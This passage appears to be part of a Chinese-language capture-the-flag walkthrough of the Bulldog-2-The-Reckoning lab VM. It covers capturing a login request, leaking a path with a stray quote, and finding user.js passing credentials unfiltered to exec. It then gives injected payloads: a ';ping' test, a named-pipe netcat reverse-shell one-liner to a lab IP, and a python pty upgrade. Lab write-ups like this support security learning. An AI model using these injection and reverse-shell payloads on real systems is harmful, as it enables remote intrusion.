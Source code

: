 --------------------------------------------
--------------------------------------------
5、burpsuite远程命令执行

继续抓包输入任意用户名密码测试：
-----
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Tue, 19 Apr 2022 03:23:23 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 40
Connection: close
X-Powered-By: Express
Access-Control-Allow-Origin: *
ETag: W/"28-44Xo62/YZrQm4R4i7yg1FLYkPXI"

{"success":false,"msg":"Wrong password"}
-----
发送后发现，返回的是200 OK成功了，但是是错误的密码false，可能存在命令执行漏洞！测试下！

{
  "username": "dayu1",
  "password": "dayu1""
}
添加了一个双引号："
/var/www/node/Bulldog-2-The-Reckoning/
可看到回显暴露了底层目录和文件信息！

谷歌：Bulldog-2-The-Reckoning github
发现：https://github.com/Frichetten/Bulldog-2-The-Reckoning
查看源码：
在user.js源码中：
74~84行中提示，用户名和密码参数被传递给exec函数，没有经过任何过滤，容易受到RCE（远程代码执行）的影响！

-----
日常用法：
tcpdump -nni eth0 （比较常用）
-nn Don't convert protocol and port numbers etc. to names either.（不转换协议端口号）
参考文章：https://blog.csdn.net/sj349781478/article/details/84023721
-----

用ping测试下：
kali开启：tcpdump -nni eth0 icmp
;ping 192.168.4.6 -c 4    ---在密码界面输入即可！
获得回显：23:31:39.140377 IP 192.168.4.5 > 192.168.4.6: ICMP echo request, id 2115, seq 1, length 64
说明可执行命令！


nc -vlp 1234
在密码后面加入：
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.4.6 1234 >/tmp/f

成功获得反弹shell！
python -c 'import pty; pty.spawn("/bin/bash")'
